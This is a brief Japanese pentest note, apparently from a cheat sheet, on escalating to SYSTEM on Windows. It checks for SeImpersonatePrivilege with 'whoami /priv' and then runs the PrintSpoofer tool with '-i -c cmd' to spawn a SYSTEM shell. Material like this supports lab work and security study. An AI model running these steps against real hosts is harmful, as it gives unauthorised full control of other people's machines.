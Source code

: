 # SeImpersonatePrivilege

## 確認

``` bat
    whoami /priv
```

SeImpersonatePrivilegeがEnableのユーザで実行できそう。

## PrintSpoofer

* PrintSpooferをダウンロードして転送
* 実行

``` bat
    PrintSpoofer.exe -i -c cmd
```

実行後 system 権限が取得できる。
